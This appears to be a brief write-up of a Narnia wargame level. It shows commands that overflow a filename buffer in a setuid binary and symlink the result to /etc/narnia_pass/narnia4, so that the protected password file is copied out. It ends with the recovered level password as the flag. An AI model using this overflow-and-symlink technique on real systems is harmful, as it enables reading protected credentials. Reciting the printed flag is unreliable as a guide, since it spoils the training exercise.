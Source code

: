 ```yaml
---
layout: default
title: narnia4
---
```




we will override the output file, this is the line we'll run
`python3 -c "print('/tmp/1/'+'a'*(32-len('/tmp/1/')) + 'output_file')"`
notice my dir is `/tmp/1`.
then, we will run link the file that it outputs to the password file: `ln -sf /etc/narnia_pass/narnia4 /tmp/1/aaaaaaaaaaaaaaaaaaaaaaaaaoutput_file`

then, we will create the output file: `touch output_file`
and we need only to execute the binary: `/narnia/narnia3 /tmp/1/aaaaaaaaaaaaaaaaaaaaaaaaaoutput_file`

in one picture:
![alt text](./images/level4.png)



**Flag:** ***`iqNWNk173q`*** 
